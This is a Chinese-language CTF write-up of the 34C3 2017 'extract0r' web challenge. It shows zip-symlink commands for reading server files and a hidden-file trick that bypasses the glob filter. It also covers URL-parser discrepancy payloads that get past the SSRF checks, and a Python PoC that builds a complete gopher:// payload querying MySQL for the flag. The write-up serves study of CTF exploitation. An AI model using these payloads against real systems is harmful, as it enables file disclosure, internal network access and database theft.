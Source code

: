 # 34c3-2017-extract0r

## 解压
首先题目会对我们提供的 URL 进行一些校验然后访问，并进行解压。因此可以借助压缩文件可以包含链接文件的特性来进行列目录或读取文件的操作。

尝试列目录，在 VPS 上生成 payload，另外需要注意我们提供的 URL 必须是域名，题目会过滤掉 URL 中的数字，意味着不能通过 IP 访问

```shell
ln -s / root
zip -y 1.zip root
```

提交请求后，页面返回了 ` we have deleted some folders from your archive for security reasons with our cyber-enabled filtering system!`

点击 cyber-enabled filtering system 给出如下代码：
```php
function verify($directory) {
    $files = glob($directory . '/*'); 
    foreach($files as $file) {
        if (!is_file($file)) {
            unlink($file);
            @rmdir($file);
        }
    }
}
```

题目会移除所有不是文件的的东西，比如目录。因此可通过 `ln -s /var/www/html/index.php` 之类读文件，但无法列目录。

但在 http://php.net/manual/en/function.glob.php 中可以看到：

![glob](img/glob.png)

glob 函数不会列出隐藏文件，借此特性便能绕过 filter 列目录，简单的将 root 重命名为 .root 即可

```shell
ln -s / .root
zip -y 1.zip .root
```

成功列目录

![dir](img/dir.png)

然后在 `/home/extract0r` 可以找到 `create_a_backup_of_my_supersecret_flag.sh`，其中发现 flag 在数据库中，且创建了一个空密码的用户

## SSRF bpass
知道 flag 在数据库，又存在能向提供的 URL 发出请求的功能，明显存在 SSRF

在 url.php 中可以看到发出请求的函数

```php

function clean_parts($parts) {
    // oranges are not welcome here
    $blacklisted = "/[ \x08\x09\x0a\x0b\x0c\x0d\x0e:\d]/";

    if (array_key_exists("scheme", $parts)) {
        $parts["scheme"] = preg_replace($blacklisted, "", $parts["scheme"]);
    }

    if (array_key_exists("user", $parts)) {
        $parts["user"] = preg_replace($blacklisted, "", $parts["user"]);
    }

    if (array_key_exists("pass", $parts)) {
        $parts["pass"] = preg_replace($blacklisted, "", $parts["pass"]);
    }

    if (array_key_exists("host", $parts)) {
        $parts["host"] = preg_replace($blacklisted, "", $parts["host"]);
    }

    return $parts;
}

function get_contents($url) {
    $disallowed_cidrs = [ "127.0.0.0/8", "169.254.0.0/16", "0.0.0.0/8",
        "10.0.0.0/8", "192.168.0.0/16", "14.0.0.0/8", "24.0.0.0/8", 
        "172.16.0.0/12", "191.255.0.0/16", "192.0.0.0/24", "192.88.99.0/24",
        "255.255.255.255/32", "240.0.0.0/4", "224.0.0.0/4", "203.0.113.0/24", 
        "198.51.100.0/24", "198.18.0.0/15",  "192.0.2.0/24", "100.64.0.0/10" ];

    for ($i = 0; $i < 5; $i++) {
        $url_parts = clean_parts(parse_url($url));

        if (!$url_parts) {
            error("Couldn't parse your url!");
        }

        if (!array_key_exists("scheme", $url_parts)) {
            error("There was no scheme in your url!");
        }

        if (!array_key_exists("host", $url_parts)) {
            error("There was no host in your url!");
        }

        $port = get_port($url_parts);
        $host = $url_parts["host"];

        $ip = gethostbynamel($host)[0];
        if (!filter_var($ip, FILTER_VALIDATE_IP,
            FILTER_FLAG_IPV4|FILTER_FLAG_NO_PRIV_RANGE|FILTER_FLAG_NO_RES_RANGE)) {
            error("Couldn't resolve your host '{$host}' or
                the resolved ip '{$ip}' is blacklisted!");
        }

        foreach ($disallowed_cidrs as $cidr) {
            if (in_cidr($cidr, $ip)) {
                error("That IP is in a blacklisted range ({$cidr})!");
            }
        }

        // all good, rebuild url now
        $url = rebuild_url($url_parts);


        $curl = curl_init();
        curl_setopt($curl, CURLOPT_URL, $url);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
        curl_setopt($curl, CURLOPT_TIMEOUT, 3);
        curl_setopt($curl, CURLOPT_CONNECTTIMEOUT, 3);
        curl_setopt($curl, CURLOPT_RESOLVE, array($host . ":" . $port . ":" . $ip)); //加一条缓存，防止dns rebinding
        curl_setopt($curl, CURLOPT_PORT, $port);

        ...
    }
}
```

代码逻辑：
1. 使用 `parse_url` 来解析提供的 URL 为 host, scheme, port, path 等部分
2. 对每一部分进行过滤
3. 解析 host 并检查是否在黑名单内
4. 重新构建 URL
5. 使用 `libcurl` 发送请求


这里的官方标准解法是使用 ipv6 表示法来表示域名，核心是**利用 `parse_url` 和 `libcurl` 发包针对 host 解析时的差异**。

```
http://foo@[abcbcb.cf]@google.com:3306/
```

`parse_url` 解析 host 为 google.com
`libcurl` 解析为 [abcbcb.cf]

在 rfc3986 中对 host 的定义为

> host = IP-literal / IPv4address / reg-name
...
A host identified by an Internet Protocol literal address, version 6 or later, is distinguished by enclosing the IP literal within square brackets ("[" and "]"). This is the only place where square bracket characters are allowed in the URI syntax.
IP-literal = "[" ( IPv6address / IPvFuture  ) "]"

即 [ip] 是一种 host 的形式，libcurl 在解析时候认为 [] 包裹的是 host。

由于 host 会过滤数字，因此提交的 url 只能包含十六进制中剩下的 a-f。 而 .cf 域名是免费的，因此可以注册一个 abcbcb.cf 解析为 127.0.0.1

然而此处还存在一个预期外的解

```
http://foo@localhost:foo@google.com:3306/
```

`parse_url` 匹配最后一个 @ 后面符合格式的 host，因此将 google.com 解析为 host；而 `libcurl` 匹配第一个 @ 后面符合格式的 host，因而将 localhost 解析为 host

> 注：本环境 curl 版本为 7.47，无法成功利用，需要更高的版本才能利用该方法

## SSRF 攻击 MySQL
绕过了 SSRF 对 localhost 的限制，即可直接攻击 MySQL，但由于 curl 返回的数据需要能被解压，因此需要把查出来的数据构造为压缩格式。

使用 `m4st3r_ov3rl0rd` 登录，然后执行 `use flag;select flag from flag;` 获得 flag

有了 flag 接下来需要将其变为压缩格式

```python
flag_dummy = b"B"*100

payload = zip_tools.create_zip(b"gimme_flag", flag_dummy)

prefix = bytes(payload.split(flag_dummy)[0])
suffix = bytes(payload.split(flag_dummy)[1])


sql_cmd = b"select concat(cast(0x" + hexlify(prefix) + b" as binary), rpad(flag, 100, 'A'), cast(0x" + hexlify(suffix) + b" as binary)) from flag.flag-- -"
```

上面的 PoC 先创建一个 zip 文件，并填充有字符串 100*"B"。在这个基础上，利用我们的 SQL 查询出来的 flag 替换掉这个字符串。最终 select 出来即为 zip 文件。（7z 即使文件 CRC 校验错误，部分字段异常，也能成功解压）


使用 [exp](exploit.py) 生成最终 payload：

```
gopher://foo@[abcbcb.cf]@yolo.com:3306/A%48%00%00%01%85%a6%3f%20%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6d%34%73%74%33%72%5f%6f%76%33%72%6c%30%72%64%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%00%4c%01%00%00%03%73%65%6c%65%63%74%20%63%6f%6e%63%61%74%28%63%61%73%74%28%30%78%35%30%34%62%30%33%30%34%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%20%61%73%20%62%69%6e%61%72%79%29%2c%20%72%70%61%64%28%66%6c%61%67%2c%20%31%30%30%2c%20%27%41%27%29%2c%20%63%61%73%74%28%30%78%35%30%34%62%30%31%30%32%31%65%30%33%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%35%30%34%62%30%35%30%36%30%30%30%30%30%30%30%30%30%31%30%30%30%31%30%30%33%38%30%30%30%30%30%30%38%63%30%30%30%30%30%30%30%30%30%30%20%61%73%20%62%69%6e%61%72%79%29%29%20%66%72%6f%6d%20%66%6c%61%67%2e%66%6c%61%67%2d%2d%20%2d%46%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%42%41%52
```

## References
[extract0r - web - medium](https://github.com/eboda/34c3ctf/tree/master/extract0r)

[从一道CTF题目看Gopher攻击MySql](https://www.freebuf.com/articles/web/159342.html)

[34c3 web extract0r!](https://www.jianshu.com/p/ef6cf8665a64)
